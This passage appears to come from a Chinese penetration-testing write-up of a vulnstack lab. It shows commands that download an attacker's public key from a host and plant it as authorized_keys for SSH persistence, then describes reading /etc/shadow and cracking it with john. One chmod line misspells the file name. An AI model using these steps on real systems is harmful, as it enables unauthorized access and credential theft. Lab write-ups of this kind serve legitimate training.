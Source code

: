 ```
wget http://192.168.47.188:8000/mykey.pub
mv mykey.pub authorized_keys	
chmod 600 authorize_keys
```

![image-20231208202123570](vulnstack靶场系列四/image-20231208202123570.png)	



随后在kali中使用对应的私钥连接目标主机的ubuntu用户

```
ssh -i mykey ubuntu@192.168.47.186
```



### 2.密码爆破

查看目标主机的`/etc/shadow`文件的内容，将其复制到kali中并使用`john`命令进行爆破，成功获取到`ubuntu`用户的密码

![image-20231209093104830](vulnstack靶场系列四/image-20231209093104830.png)



随之使用ssh远程登录目标主机
